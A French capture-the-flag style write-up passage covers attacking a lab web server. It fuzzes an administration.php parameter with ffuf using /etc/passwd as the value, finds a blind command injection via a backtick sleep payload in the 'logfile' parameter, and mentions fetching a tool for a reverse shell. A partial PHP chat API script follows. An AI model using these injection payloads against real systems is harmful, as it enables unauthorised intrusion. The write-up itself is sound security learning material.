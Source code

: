 ```html
You are not allowed to view : <br>Your activity has been logged
```

J'ai donc brute-forcé un nom de paramètre possible. Ma wordlist habituelle des paramètres les plus fréquents n'ayant rien trouvé je me suis tourné vers la liste de mots `raft` :

```shellsession
$ ffuf -u "http://192.168.56.72:8080/administration.php?FUZZ=/etc/passwd" -w fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt -fs 65 -t 10

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.72:8080/administration.php?FUZZ=/etc/passwd
 :: Wordlist         : FUZZ: fuzzdb/discovery/predictable-filepaths/filename-dirname-bruteforce/raft-large-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 65
________________________________________________

logfile                 [Status: 200, Size: 76, Words: 12, Lines: 3]
:: Progress: [119601/119601] :: Job [1/1] :: 379 req/sec :: Duration: [0:05:44] :: Errors: 0 ::
```

Tenter ensuite de brute-forcer la valeur de ce paramètre `logfile` n'a mené nul part en revanche Wapiti a remarqué une temporisation sur un payload particulier d'exécution de code.

Il y a un bug ici car une erreur réseau a été remontée mais pas la vulnérabilité. Une erreur que je corrigerais prochainement.

```
[¨] GET http://192.168.56.72:8080/administration.php?logfile=a%60sleep%2060%60 (0)
1 requests were skipped due to network issues
```

La vulnérabilité est avérée mais ne se fait qu'en aveugle. C'est toutefois suffisant pour rappatrier un outil et obtenir un reverse-shell avancé.

Voici à titre d'information le code du script `process.php` qui correspondait à l'API du chat :

```php
<?php

$function = $_POST["function"];
$log = [];

switch ($function) {
    case "getState":
        if (file_exists("chat.txt")) {
            $lines = file("chat.txt");
        }
        $log["state"] = count($lines);
        break;

    case "update":
        $state = $_POST["state"];
```